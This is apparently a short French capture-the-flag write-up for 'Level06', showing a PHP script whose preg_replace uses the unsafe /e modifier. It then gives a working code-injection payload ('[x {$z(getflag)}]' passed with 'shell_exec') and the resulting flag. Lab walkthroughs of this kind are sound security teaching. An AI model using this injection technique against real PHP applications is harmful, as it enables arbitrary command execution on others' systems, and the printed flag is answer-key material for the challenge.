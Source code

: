 # Level06

<pre>
#!/usr/bin/php
<?php
function y($m)
{
    $m = preg_replace("/\./", " x ", $m);
    $m = preg_replace("/@/", " y", $m);
    return $m;
}
function x($y, $z)
{
    $a = file_get_contents($y);
<strong>    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);</strong>
    $a = preg_replace("/\[/", "(", $a);
    $a = preg_replace("/\]/", ")", $a);
    return $a;
}
$r = x($argv[1], $argv[2]);
print $r;
?>
</pre>
- On remarque que **/e** permet d'executer se qui est recuperer dans le regex et que c'est une faille de securité connu
- Grace a un [post stackoverflow](https://stackoverflow.com/a/43759648) on peut comprendre comment ca fonctionne
- /tmp/toto.php
```
[x {$z(getflag)}]
```
- On lance donc `./level06` avec notre fichier php et la function shell\_exec en deuxieme parametre
```
./level06 /tmp/toto.php "shell_exec"
```
- flag: `wiok45aaoguiboiki2tuin6ub`
